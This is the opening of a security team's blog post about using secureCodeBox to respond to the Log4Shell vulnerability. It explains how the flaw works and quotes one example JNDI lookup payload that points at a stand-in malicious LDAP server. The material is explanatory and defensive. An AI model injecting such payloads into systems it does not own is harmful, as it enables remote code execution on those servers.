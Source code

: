 ```yaml
---
# SPDX-FileCopyrightText: 2021 iteratec GmbH
#
# SPDX-License-Identifier: Apache-2.0

title: How We Used the secureCodeBox In Our Log4Shell Incident Response
author: The secureCodeBox Team
author_title: Core Developer
author_url: https://github.com/secureCodeBox
author_image_url: https://avatars.githubusercontent.com/u/34573705?v=4
tags:
  - secureCodeBox
  - case study
  - incident response
  - SAST
  - DAST
  - cascading scans
  - Log4Shell
  - Log4J
description: We describe how the secureCodeBox allowed us to rapidly respond to the Log4shell vulnerability.
image: /img/blog/2022-02-24-burninglog.jpg
---
```


![A burning log](/img/blog/2022-02-24-burninglog.jpg)

Cover photo by [Ray Shrewsberry](https://unsplash.com/@ray12119) on [Unsplash](https://unsplash.com/photos/AXRYB88LAXs).

By now, you must have heard about Log4Shell, the present that ruined Christmas for many developers and IT specialists, whether naughty or nice. 
This blog describes how we used the secureCodeBox as one building block in our incident response process at iteratec.
   


## A Brief Introduction To Log4Shell

But first, a small refresher: In late November 2021, a [zero-day vulnerability was discovered in the widely used Java logging library Log4J](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/). It allowed attackers to remotely execute code through Java Naming and Directory Interface ([JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) lookups to malicious LDAP servers: If an attacker can get the application to log a payload controlled by the attacker, like `{jndi:ldap//evil.ldap.server.adress/a}`, then the code hosted on the LDAP server would be loaded and executed by the program, effectively letting third parties take control of the Java Application and the server it's running on.

This vulnerability shook the IT world. It received a CVE rating of 10/10, and even the German government issued a statement calling for immediate action and described the issue as "critical". This is due to two main reasons. First, the vulnerability was relatively simple for attackers to exploit. Second, it has remained undiscovered since 2013, affecting many services from AWS to Minecraft.
